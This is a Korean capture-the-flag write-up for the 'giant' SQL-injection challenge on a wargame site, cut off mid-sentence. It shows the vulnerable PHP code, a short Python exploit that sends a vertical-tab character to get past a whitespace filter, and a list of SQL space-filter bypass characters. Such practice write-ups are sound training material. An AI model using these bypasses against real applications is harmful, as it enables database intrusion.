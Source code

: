 

## Darkknight Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(strlen($_GET[shit])>1) exit("No Hack ~_~");  
if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe");  
$query = "select 1234 from{$_GET[shit]}prob_giant where 1";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result[1234]) solve("giant");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/giant_18a08c3be1d1753de0cb157703f75a5e.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['shit'] = chr(0x0b)

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] GIANT Clear")
```
이번 문제는 공백 우회를 해야한다.  
공백 우회하는 방법에는 다음이 있다.
- 괄호 `()`
- 주석 `/**/`
- 더하기 `+`
- 수평탭(Horizontal Tab) `%09`
- 수직탭(Vertical Tab) `%0b`
- 개행(Line Feed) `%0a`
- 다음 페이지(Form Feed) `%0c`
- 복귀(Carriage Return) `%0d`
문제에서 `%0a` `